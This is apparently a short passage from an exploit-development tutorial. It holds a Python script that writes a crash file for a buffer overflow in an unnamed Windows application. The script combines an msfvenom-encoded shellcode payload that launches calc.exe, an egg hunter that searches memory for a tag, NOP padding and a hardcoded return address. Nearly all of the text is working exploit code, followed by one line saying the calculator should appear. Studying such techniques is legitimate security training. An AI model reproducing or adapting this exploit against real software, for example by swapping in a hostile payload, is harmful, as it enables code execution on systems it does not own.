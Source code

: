 ```

f = open("crash-8.txt", "wb")  
  
padding1   = b"ERCDERCD" #Tag the egg hunter will search for  
padding1  += b"\x90" * 100  
  
# msfvenom -a x86 -p windows/exec -e x86/shikata_ga_nai -b '\x00\x0a\x0d'  
# cmd=calc.exe exitfunc=thread -f python  
payload =  b""  
payload += b"\xdb\xce\xbf\x90\x28\x2f\x09\xd9\x74\x24\xf4\x5d\x29"  
payload += b"\xc9\xb1\x31\x31\x7d\x18\x83\xc5\x04\x03\x7d\x84\xca"  
payload += b"\xda\xf5\x4c\x88\x25\x06\x8c\xed\xac\xe3\xbd\x2d\xca"  
payload += b"\x60\xed\x9d\x98\x25\x01\x55\xcc\xdd\x92\x1b\xd9\xd2"  
payload += b"\x13\x91\x3f\xdc\xa4\x8a\x7c\x7f\x26\xd1\x50\x5f\x17"  
payload += b"\x1a\xa5\x9e\x50\x47\x44\xf2\x09\x03\xfb\xe3\x3e\x59"  
payload += b"\xc0\x88\x0c\x4f\x40\x6c\xc4\x6e\x61\x23\x5f\x29\xa1"  
payload += b"\xc5\x8c\x41\xe8\xdd\xd1\x6c\xa2\x56\x21\x1a\x35\xbf"  
payload += b"\x78\xe3\x9a\xfe\xb5\x16\xe2\xc7\x71\xc9\x91\x31\x82"  
payload += b"\x74\xa2\x85\xf9\xa2\x27\x1e\x59\x20\x9f\xfa\x58\xe5"  
payload += b"\x46\x88\x56\x42\x0c\xd6\x7a\x55\xc1\x6c\x86\xde\xe4"  
payload += b"\xa2\x0f\xa4\xc2\x66\x54\x7e\x6a\x3e\x30\xd1\x93\x20"  
payload += b"\x9b\x8e\x31\x2a\x31\xda\x4b\x71\x5f\x1d\xd9\x0f\x2d"  
payload += b"\x1d\xe1\x0f\x01\x76\xd0\x84\xce\x01\xed\x4e\xab\xee"  
payload += b"\x0f\x5b\xc1\x86\x89\x0e\x68\xcb\x29\xe5\xae\xf2\xa9"  
payload += b"\x0c\x4e\x01\xb1\x64\x4b\x4d\x75\x94\x21\xde\x10\x9a"  
payload += b"\x96\xdf\x30\xf9\x79\x4c\xd8\xd0\x1c\xf4\x7b\x2d"  
  
egghunter   = b"\x8B\xFD"               # mov edi,ebp                               
egghunter  += b"\xB8\x45\x52\x43\x44"   # mov eax,44435245                          
egghunter  += b"\x47"                   # inc edi                                   
egghunter  += b"\x39\x07"               # cmp dword ptr ds:[edi],eax              
egghunter  += b"\x75\xFB"               # jne 48DFEEB                             
egghunter  += b"\x83\xC7\x04"           # add edi,4                                
egghunter  += b"\x39\x07"               # cmp dword ptr ds:[edi],eax               
egghunter  += b"\x75\xF4"               # jne 48DFEEE                              
egghunter  += b"\xFF\xE7"               # jmp edi                                  
  
buf = padding1 + payload   
buf += b"\x90" * (570 - len(padding1 + payload))  
buf += egghunter  
buf += b"\x90" * (620 - len(buf))  
buf += b"\x90\x90\xEB\xBE"  
buf += b"\x86\x1e\x40" #00401e86  
  
f.write(buf)  
f.close()  

```

And when we pass this string to our vulnerable application we should get the calculator application pop up.
